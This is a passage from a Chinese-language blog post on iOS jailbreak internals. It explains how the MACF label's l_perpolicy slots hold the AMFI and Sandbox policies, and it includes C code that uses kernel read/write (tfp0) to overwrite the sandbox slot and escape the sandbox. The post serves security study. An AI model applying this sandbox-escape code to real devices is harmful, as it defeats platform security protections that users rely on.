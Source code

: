 `l_perpolicy` 数组记录了 MAC Policy 列表，AMFI 和 Sandbox 的 Policy 都会插入到相应进程的 `l_perpolicy` 中。

根据 Quarkslab Blogs 中的文章 [Modern Jailbreaks' Post-Exploitation](https://blog.quarkslab.com/modern-jailbreaks-post-exploitation.html)，AMFI 和 Sandbox 分别插入到了 0 和 1 位置[3]：
> Each l_perpolicy "slot" is used by a particular MACF module, the first one being AMFI and the second one the sandbox. LiberiOS calls ShaiHulud2ProcessAtAddr to put 0 in its second label l_perpolicy[1]. Being the label used by the sandbox (processed in the function sb_evaluate), this move will neutralize it while keeping the label used by AMFI (Apple Mobile File Integrity) l_perpolicy[0] untouched (it's more precise and prevent useful entitlement loss).

即每个 `l_perpolicy` 插槽都被用于特定的 MACF 模块，第一个插槽被用于 AMFI，第二个被用于 Sandbox。LiberiOS 通过调用 `ShaiHulud2ProcessAtAddr` 在不修改第一个插槽的情况下将第二个插槽的指针置 0 来实现更加精准和稳定的沙盒逃逸。

# Escape Now
有了 tfp0 和上面的理论基础，实现沙盒逃逸的路径变得清晰了起来，我们只需要将当前进程的 `l_perpolicy[1]` 修改为 0，即可逃出沙盒。

首先读取到当前进程的 label，路径为 `proc->p_ucred->cr_label`，随后将索引为 1 的 Policy Slot 置 0：
```c
#define KSTRUCT_OFFSET_PROC_UCRED 0xf8
#define KSTRUCT_OFFSET_UCRED_CR_LABEL 0x78

kptr_t swap_sandbox_for_proc(kptr_t proc, kptr_t sandbox) {
    kptr_t ret = KPTR_NULL;
    _assert(KERN_POINTER_VALID(proc));
    kptr_t const ucred = ReadKernel64(proc + koffset(KSTRUCT_OFFSET_PROC_UCRED));
    _assert(KERN_POINTER_VALID(ucred));
    kptr_t const cr_label = ReadKernel64(ucred + koffset(KSTRUCT_OFFSET_UCRED_CR_LABEL));
    _assert(KERN_POINTER_VALID(cr_label));
    kptr_t const sandbox_addr = cr_label + 0x8 + 0x8;
    kptr_t const current_sandbox = ReadKernel64(sandbox_addr);
    _assert(WriteKernel64(sandbox_addr, sandbox));
    ret = current_sandbox;
out:;
    return ret;
}
```

这里说明一下 `sandbox_addr` 的计算：
```c
kptr_t const sandbox_addr = cr_label + 0x8 + 0x8;
```
我们再回顾下 label 结构体：
```c
struct label {
    int	l_flags;
    union {
    	void	*l_ptr;
    	long	 l_long;
    } l_perpolicy[MAC_MAX_SLOTS];
};
```
虽然 `l_flags` 本身只有 4 字节，但 `l_perpolicy` 占据了 8n 字节，为了按照最大成员对齐，`l_flags` 也会占据 8B，因此 `cr_label + 8` 指向了 `l_perpolicy`，再偏移 8B 则指向 Sandbox 的 Policy Slot。
